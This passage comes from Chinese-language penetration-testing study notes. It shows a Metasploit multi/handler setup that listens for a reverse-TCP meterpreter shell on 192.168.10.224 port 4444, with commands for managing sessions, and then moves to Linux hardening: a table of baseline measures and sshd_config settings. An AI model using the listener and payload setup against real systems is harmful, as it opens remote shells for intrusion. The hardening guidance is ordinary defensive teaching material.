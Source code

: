     msf6 > use exploit/multi/handler      //使用侦听程序
    [*] Using configured payload generic/shell_reverse_tcp

    msf6 exploit(multi/handler) > set lhost 192.168.10.224    //设置监听地址（监听的地址，本机地址）
    lhost => 192.168.10.224
    msf6 exploit(multi/handler) > set lport 4444      //设置监听端口
    lport => 4444
    msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/  reverse_tcp     //设置载荷
    msf6 exploit(multi/handler) > run     //运行
    ```
- 会话放入后台运行
  - background
    - 在渗透的时候，有时需要执行其他任务，为了执行新任务，需要将当前的Meterpreter会话切换到后台，这时就需要用到background命令
    ```
    meterpreter > background      //将会话放入后台
    sessions          //显示所有会话
    sessions 4        //切换会话
    然后重新运行
    meterpreter > run
    ```
## Linux安全加固
### Linux安全基线
- 指的是使Linux各项配置都符合安全要求的基本标准
  - 账号/密码：口令复杂度/wheel组……
  - SSH登陆控制：禁root/该端口/密码/密钥验证……
  - 文件权限控制
  - 内核参数控制
### 系统加固的影响
- 可能会影响用户的使用习惯，影响系统易用性

|加固项|建议措施|易用性影响|是否默认|
|-|-|-|-|
|登录失败次数限制|密码输错3次，锁定1分钟|锁定后需等待1分钟以后再试|是|
|用户umask限制|设为077，新建文档仅自己可用|需要额外为文档指定权限|是|
|su使用限制|只允许root和wheel组的用户使用su|其他用户使用su会失败|是|
|SSH强加密|不支持CBC/MD5/SHA1弱算法，改为支持CTR/SHA2强算法|低版本的Xshel1/Putty客户端无法登入|是|
|禁止root远程SSH|禁止root从网络通过SSH登入|要先以普通用户SSH登入，再切换或提权|否|
|命令行超时限制|闲置5分钟自动退出|超时后需重新登录|否|
|密码复杂度限制|不少于8位，字符组合3/4原则|不能为用户设置简单口令|否|
|密码有效期|最长90天，过期前7天提示|过期后必须改密码才能进入系统|否|

### 典型加固指导
#### 禁止root远程SSH
- 调整sshd服务端配置文件
  ```
  # vim /etc/ssh/sshd_config

  Port 12345      //修改默认连接端口为12345
  LoginGraceTime 1m         //修改用户登录验证过程的时长1分钟
  PermitRootLogin no          //禁止root远程登陆（不影响sudo提权）
  MaxAuthTries2             //单次连接最多重试两次验证
  AllowUsers zhangsan@192.168.10.224    //添加白名单，仅允许zhangsan用户在192.168.10.224上访问

  # /etc/init.d/ssh restart       //重启ssh服务
  ```